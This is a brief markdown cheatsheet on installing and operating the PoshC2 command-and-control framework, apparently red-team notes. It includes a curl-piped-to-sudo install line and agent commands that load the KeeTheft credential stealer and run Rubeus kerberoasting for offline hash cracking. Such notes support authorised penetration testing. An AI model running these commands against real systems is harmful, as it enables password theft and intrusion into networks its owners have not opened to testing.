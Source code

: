 # PoshC2




## Install

- [https://github.com/nettitude/PoshC2](https://github.com/nettitude/PoshC2)

```
$ curl -sSL https://github.com/nettitude/PoshC2/raw/dev/Install.sh | sudo bash -s -- -p /opt/PoshC2 -b dev
```




## Run

List projects:

```
$ posh-project -l
```

Show current project:

```
$ posh-project -c
```

Create a new project:

```
$ posh-project -n <PROJECT_NAME>
```

Adjust config:

```
$ posh-config
```

Start team server:

```
$ posh-server
```

Connect to the team server:

```
$ posh -u snovvcrash
```




## Cheatsheet

[Load](https://poshc2.readthedocs.io/en/latest/usage/loadingmodules.html) .NET assembly and run it (available for agents that load CLR):

```
C# 01> loadmodule /home/snovvcrash/projects/WeaponizeKali.sh/bin/KeeTheft.exe
C# 01> run-exe Namespace.Class Assembly <args>
C# 01> run-exe Rubeus.Program Rubeus kerberoast /usetgtdeleg /format:hashcat
```

